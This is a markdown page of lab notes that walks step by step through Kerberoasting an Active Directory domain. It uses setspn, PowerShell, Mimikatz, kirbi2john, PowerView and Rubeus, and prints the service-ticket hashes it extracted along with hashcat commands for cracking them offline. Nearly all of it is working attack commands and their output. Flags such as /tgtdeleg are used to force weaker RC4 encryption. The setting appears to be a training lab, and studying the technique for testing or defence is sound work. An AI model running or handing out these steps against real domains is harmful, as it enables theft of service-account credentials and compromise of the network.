

# Windows

### Semi-Manual Method

*   **Enumerating SPNs with setspn.exe**

    ```powershell
    setspn.exe -Q */*
    ```

    ```bash
    <SNIP>

    CN=sqlprod,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
            MSSQLSvc/SPSJDB.inlanefreight.local:1433
    CN=sqlqa,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
            MSSQLSvc/SQL-CL01-01inlanefreight.local:49351
    CN=sqldev,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
            MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
    CN=adfs,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
            adfsconnect/azure01.inlanefreight.local
    ```
*   **Targeting a Single User**

    ```powershell
    # Request TGS For specifc User
    Add-Type -AssemblyName System.IdentityModel
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
    ```

    ```bash
    Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-2
    SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
    ValidFrom            : 2/24/2022 11:36:22 PM
    ValidTo              : 2/25/2022 8:55:25 AM
    ServicePrincipalName : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
    SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
    ```
*   **Retrieving All Tickets Using setspn.exe**

    ```powershell
    setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
    ```

    ```bash
    Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-3
    SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
    ValidFrom            : 2/24/2022 11:56:18 PM
    ValidTo              : 2/25/2022 8:55:25 AM
    ServicePrincipalName : exchangeAB/ACADEMY-EA-DC01
    SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

    Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-4
    SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
    ValidFrom            : 2/24/2022 11:56:18 PM
    ValidTo              : 2/24/2022 11:58:18 PM
    ServicePrincipalName : kadmin/changepw
    SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

    Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-5
    SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
    ValidFrom            : 2/24/2022 11:56:18 PM
    ValidTo              : 2/25/2022 8:55:25 AM
    ServicePrincipalName : WSMAN/ACADEMY-EA-MS01
    SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

    <SNIP>
    ```
*   **Extracting Tickets from Memory with Mimikatz**

    ```powershell
    mimikatz # kerberos::list /export

    # use when we can't export file
    mimikatz # base64 /out:true
    ```

    ```bash
    <SNIP>

    [00000002] - 0x00000017 - rc4_hmac_nt      
       Start/End/MaxRenew: 2/24/2022 3:36:22 PM ; 2/25/2022 12:55:25 AM ; 3/3/2022 2:55:25 PM
       Server Name       : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433 @ INLANEFREIGHT.LOCAL
       Client Name       : htb-student @ INLANEFREIGHT.LOCAL
       Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; 
    ====================
    Base64 of file : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
    ====================
    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
    ZWZyZWlnaHQubG9jYWw6MTQzMw==
    ====================

       * Saved to file     : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi

    <SNIP>
    ```
*   **Preparing the Base64 Blob for Cracking - Linux box**

    ```powershell
    echo "<base64 blob>" |  tr -d \\n > encoded_file
    ```

    ```bash
    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
    ```
*   **Placing the Output into a File as .kirbi - Linux box**

    ```powershell
    cat encoded_file | base64 -d > sqldev.kirbi
    ```
*   **Extracting the Kerberos Ticket using kirbi2john.py - Linux box**

    tool to extract the Kerberos ticket from the TGS file.

    ```powershell
    python2.7 kirbi2john.py sqldev.kirbi
    ```
*   **Modifiying crack\_file for Hashcat - Linux box**

    ```powershell
    sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
    ```
*   **Viewing the Prepared Hash - Linux box**

    ```bash
    cat sqldev_tgs_hashcat 
    ```

    ```bash
    $krb5tgs$23$*sqldev.kirbi*$813149fb261549a6a1b4965ed49d1ba8$7a8c91b47c534bc258d5c97acf433841b2ef2478b425865dc75c39b1dce7f50dedcc29fc8a97aef8d51a22c5720ee614fcb646e28d854bcdc2c8b362bbfaf62dcd9933c55efeba9d77e4c6c6f524afee5c68dacfcb6607291a20cdfb0ef144055356a7296e33b440754be7f87754ac2e4858348e2aebb7270b2d345047f880e17acc07e27a8f752c372bc83a62d54208d12288893d32afd210191dd3b2c56797bd1a72e35a73a7820be51fbf277b83d8181fff5a05cf21481a7b462ceb01c3761c50952689ed1099827c17c2934131db71bc5142c589cd70ed2ebf57dca3f6226f3b21849529355414433210b8d7bd76fec4eb68a45deebc3e7cc931ed8769328536769123f5040d6771915cdbc6c90164669fac72d23a631fef25804b5c8ec39680a4cc2959929edce34bbee6aff135bcbbb26a41a4b4e88b936896d4662ac849f56d7d68071be139cf4dfaf66497015297f9b44cdaef096c8d00255ec3e62f7105d905d0b2f39cef83db4d812718f95e8c99129f3207b386b4c32f7d57befd411e19c218148d19028eb0103d6be99ae23a454f6f3b0339d00d27879f342598937596cadad068ac3d815952a053f87d87b2584784b9d83050eea9a7c6474cde26c90f4a3546076a40ed374d004c465f654623499ca14e9c11538012cf00dee315e2ed444293822502d7f685022e61f3568e1db25b5cfe5a89b33878b6e3db05e9d91ad63820fcb7d0449e66add13f1efceddda95339db3dc919f1caff9690e54b3e4f9a8cf6998a9f9bf55c7a2ed2c87382e9da60f7ca3c22e08cc359f3ef6f4603a5af2fc28303bf3602ab9bc52026e58c27fb247fd4210f45244fd71484685b837fe9573a53964d54acfde7f963028764e99bea7b77139cb651328e862e43d894638288eace99b6d4f8b6684150db9adc43254143b77f32ebe6fbe309dde3b78305fdf0fe60505f9000b89c67c75ef6dd425e04fbe3a5ebf2d78a11a392d815a29ef48d9457fb6c780eb4cc07dfa68c2e97054788952f5ad92ca8d062e4a68967860302fd9630174af832e599bb5fca9cf341d7a1176868d9073796dffbd48efe99b222f4274e93066de646b3c60d1dd94072dd121dd0706024d11738a75ebeb5b7865a5505220d0f03aea6d359a17f3c5b6424989b31b6e52d1c558393aa34e81204fb107374a8884dcb16f6c59a76a0022004fd921734b8719e8694ba0d7f87eb46f5607af4eb1c681b6b5140dbc94a9ea7f5db6ae4c71fbc1024a25b77ac00bdc549d66373d390643be8f1007930a4124e99d4fcb6177dbd5669fb06170d3b8a75db9928164b55e454d08e77f917b1dd2e648d9c7eb0cb2b8ca0eff8a44d1ea5fdd67e01da79047a4a1406f761f5e3b6944cebed45379ea14e7a027c843fa405c07c8385a2102f07967a7cb4883f44ee72d4aa7a38b2701e77374016a01193f5b178e34f4cf2d8eadf651e162569eb421c74e8d5e0cc1a9fab58a4b9b63babb09efc3427e1667f9c7731bcabe3645986040a7306924df5e6e68655e7b0e2e88e7ce0281e0f554de82d9de6c4d9c8d2a36fce65bbb337a415030ce1d03c00fd9783afb5df0ee8fbabfa358521ad845e6d07fde7d34f2311ebae6e6a119d60d899467a66f997c273d2df73350f2d6c5438e71a057feeab
    ```
*   **Cracking the Hash with Hashcat - Linux box**

    ```bash
    # in Attacker machine
    hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
    ```

***

### **Automated Method / Tool Based Route**

*   **Using PowerView to Enumerate SPN Accounts**

    ```powershell
    Import-Module .\PowerView.ps1
    Get-DomainUser * -spn | select samaccountname
    ```

    ```bash
    samaccountname
    --------------
    adfs
    backupagent
    krbtgt
    sqldev
    sqlprod
    sqlqa
    solarwindsmonitor
    ```
*   **Using PowerView to Target a Specific User**

    ```powershell
    Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
    ```

    ```bash
    SamAccountName       : sqldev
    DistinguishedName    : CN=sqldev,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
    ServicePrincipalName : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
    TicketByteHexStream  :
    Hash                 : $krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433*$BF9729001
                           376B63C5CAC933493C58CE7$4029DBBA2566AB4748EDB609CA47A6E7F6E0C10AF50B02D10A6F92349DDE3336018DE177
                           AB4FF3CE724FB0809CDA9E30703EDDE93706891BCF094FE64387B8A32771C7653D5CFB7A70DE0E45FF7ED6014B5F769F
                           DC690870416F3866A9912F7374AE1913D83C14AB51E74F200754C011BD11932464BEDA7F1841CCCE6873EBF0EC5215C0
                           12E1938AEC0E02229F4C707D333BD3F33642172A204054F1D7045AF3303809A3178DD7F3D8C4FB0FBB0BB412F3BD5526
                           7B1F55879DFB74E2E5D976C4578501E1B8F8484A0E972E8C45F7294DA90581D981B0F177D79759A5E6282D86217A03A9
                           ADBE5EEB35F3924C84AE22BBF4548D2164477409C5449C61D68E95145DA5456C548796CC30F7D3DDD80C48C84E3A538B
                           019FB5F6F34B13859613A6132C90B2387F0156F3C3C45590BBC2863A3A042A04507B88FD752505379C42F32A14CB9E44
                           741E73285052B70C1CE5FF39F894412010BAB8695C8A9BEABC585FC207478CD91AE0AD03037E381C48118F0B65D25847
                           B3168A1639AF2A534A63CF1BC9B1AF3BEBB4C5B7C87602EEA73426406C3A0783E189795DC9E1313798C370FD39DA53DD
                           CFF32A45E08D0E88BC69601E71B6BD0B753A10C36DB32A6C9D22F90356E7CD7D768ED484B9558757DE751768C99A64D6
                           50CA4811D719FC1790BAE8FE5DB0EB24E41FF945A0F2C80B4C87792CA880DF9769ABA2E87A1ECBF416641791E6A762BF
                           1DCA96DDE99D947B49B8E3DA02C8B35AE3B864531EC5EE08AC71870897888F7C2308CD8D6B820FCEA6F584D1781512AC
                           089BFEFB3AD93705FDBA1EB070378ABC557FEA0A61CD3CB80888E33C16340344480B4694C6962F66CB7636739EBABED7
                           CB052E0EAE3D7BEBB1E7F6CF197798FD3F3EF7D5DCD10CCF9B4AB082CB1E199436F3F271E6FA3041EF00D421F4792A0A
                           DCF770B13EDE5BB6D4B3492E42CCCF208873C5D4FD571F32C4B761116664D9BADF425676125F6BF6C049DD067437858D
                           0866BE520A2EBFEA077037A59384A825E6AAA99F895A58A53313A86C58D1AA803731A849AE7BAAB37F4380152F790456
                           37237582F4CA1C5287F39986BB233A34773102CB4EAE80AFFFFEA7B4DCD54C28A824FF225EA336DE28F4141962E21410
                           D66C5F63920FB1434F87A988C52604286DDAD536DA58F80C4B92858FE8B5FFC19DE1B017295134DFBE8A2A6C74CB46FF
                           A7762D64399C7E009AA60B8313C12D192AA25D3025CD0B0F81F7D94249B60E29F683B797493C8C2B9CE61B6E3636034E
                           6DF231C428B4290D1BD32BFE7DC6E7C1E0E30974E0620AE337875A54E4AFF4FD50C4785ADDD59095411B4D94A094E87E
                           6879C36945B424A86159F1575042CB4998F490E6C1BC8A622FC88574EB2CF80DD01A0B8F19D8F4A67C942D08DCCF23DD
                           92949F63D3B32817941A4B9F655A1D4C5F74896E2937F13C9BAF6A81B7EEA3F7BC7C192BAE65484E5FCCBEE6DC51ED9F
                           05864719357F2A223A4C48A9A962C1A90720BBF92A5C9EEB9AC1852BC3A7B8B1186C7BAA063EB0AA90276B5D91AA2495
                           D29D545809B04EE67D06B017C6D63A261419E2E191FB7A737F3A08A2E3291AB09F95C649B5A71C5C45243D4CEFEF5EED
                           95DDD138C67495BDC772CFAC1B8EF37A1AFBAA0B73268D2CDB1A71778B57B02DC02628AF11
    ```
*   **Exporting All Tickets to a CSV File**

    ```powershell
    Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
    ```
*   **Viewing the Contents of the .CSV File**

    ```powershell
    cat .\ilfreight_tgs.csv
    ```

    ```bash
    "SamAccountName","DistinguishedName","ServicePrincipalName","TicketByteHexStream","Hash"
    "adfs","CN=adfs,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL","adfsconnect/azure01.inlanefreight.local",,"$krb5tgs$23$*adfs$INLANEFREIGHT.LOCAL$adfsconnect/azure01.inlanefreight.local*$59C086008BBE7EAE4E483506632F6EF8$622D9E1DBCB1FF2183482478B5559905E0CCBDEA2B52A5D9F510048481F2A3A4D2CC47345283A9E71D65E1573DCF6F2380A6FFF470722B5DEE704C51FF3A3C2CDB2945CA56F7763E117F04F26CA71EEACED25730FDCB06297ED4076C9CE1A1DBFE961DCE13C2D6455339D0D90983895D882CFA21656E41C3DDDC4951D1031EC8173BEEF9532337135A4CF70AE08F0FB34B6C1E3104F35D9B84E7DF7AC72F514BE2B346954C7F8C0748E46A28CCE765AF31628D3522A1E90FA187A124CA9D5F911318752082FF525B0BE1401FBA745E1

    <SNIP>
    ```

***

### **Using Rubeus**

he tool has a vast number of options for interacting with Kerberos

*   **Using the /stats Flag**

    show details like accounts could execute attack on it

    ```powershell
    .\Rubeus.exe kerberoast /stats
    ```

    ```bash
       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v2.0.2

    [*] Action: Kerberoasting

    [*] Listing statistics about target users, no ticket requests being performed.
    [*] Target Domain          : INLANEFREIGHT.LOCAL
    [*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

    [*] Total kerberoastable users : 9

     ------------------------------------------------------------
     | Supported Encryption Type                        | Count |
     ------------------------------------------------------------
     | RC4_HMAC_DEFAULT                                 | 7     |
     | AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96 | 2     |
     ------------------------------------------------------------

     ----------------------------------
     | Password Last Set Year | Count |
     ----------------------------------
     | 2022                   | 9     |
    ```
*   **Using the /nowrap Flag**

    Let's use Rubeus to request tickets for accounts with the `admincount` attribute set to `1`.

    These would likely be high-value targets and worth our initial focus for offline cracking efforts with Hashcat.

    `/nowrap` flag so that the hash can be more easily copied down for offline cracking using Hashcat.

    ```powershell
    .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
    ```

    ```bash
       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v2.0.2

    [*] Action: Kerberoasting

    [*] NOTICE: AES hashes will be returned for AES-enabled accounts.
    [*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

    [*] Target Domain          : INLANEFREIGHT.LOCAL
    [*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))(admincount=1))'

    [*] Total kerberoastable users : 3

    [*] SamAccountName         : backupagent
    [*] DistinguishedName      : CN=BACKUPAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
    [*] ServicePrincipalName   : backupjob/veam001.inlanefreight.local
    [*] PwdLastSet             : 2/15/2022 2:15:40 PM
    [*] Supported ETypes       : RC4_HMAC_DEFAULT
    [*] Hash                   : $krb5tgs$23$*backupagent$INLANEFREIGHT.LOCAL$backupjob/veam001.inlanefreight.local@INLANEFREIGHT.LOCAL*$750F377DEFA85A67EA0FE51B0B28F83D$049EE7BF77ABC968169E1DD9E31B8249F509080C1AE6C8575B7E5A71995F345CB583FECC68050445FDBB9BAAA83AC7D553EECC57286F1B1E86CD16CB3266827E2BE2A151EC5845DCC5
    ```


**A Note on Encryption Types**

> Kerberoasting Tools → Request RC4 Encryption

RC4 (type 23) → `$krb5tgs$23$*`

AES-256 (type 18) →  `$krb5tgs$18$*`

AES-128 (type 17) → `$krb5tgs$17$*`


*   **Request a New Ticket**

    Let's start by creating an SPN account named `testspn` and using Rubeus to Kerberoast this specific user to test this out. As we can see, we received the TGS ticket RC4 (type 23) encrypted.

    ```bash
    .\Rubeus.exe kerberoast /user:testspn /nowrap
    ```

    ```bash

    [*] Action: Kerberoasting

    [*] NOTICE: AES hashes will be returned for AES-enabled accounts.
    [*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

    [*] Target User            : testspn
    [*] Target Domain          : INLANEFREIGHT.LOCAL
    [*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=testspn)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

    [*] Total kerberoastable users : 1

    [*] SamAccountName         : testspn
    [*] DistinguishedName      : CN=testspn,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
    [*] ServicePrincipalName   : testspn/kerberoast.inlanefreight.local
    [*] PwdLastSet             : 2/27/2022 12:15:43 PM
    [*] Supported ETypes       : AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96
    [*] Hash                   : $krb5tgs$18$testspn$INLANEFREIGHT.LOCAL$*testspn/kerberoast.inlanefreight.local@INLANEFREIGHT.LOCAL*$8939F8C5B97A4CAA170AD706$84B0DD2C5A931E123918FFD64561BFE651F89F079A47053814244C0ECDF15DF136E5787FAC4341A1BDF6D5077EAF155A75ACF0127A167ABE4B2324C492ED1AF4C71FF8D51927B23656FCDE36C9A7AC3467E4DB
    ```
*   **Cracking the Ticket with Hashcat & rockyou.txt**

    ```bash
    # RC4 Enctyption
    hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt 

    # (AES256-CTS-HMAC-SHA1-96)
    hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt 

    ```
*   **Using the /tgtdeleg Flag**

    ```
    we want only RC4 encryption when requesting a new service ticket
    ```

    ```bash
    .\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap
    ```

    
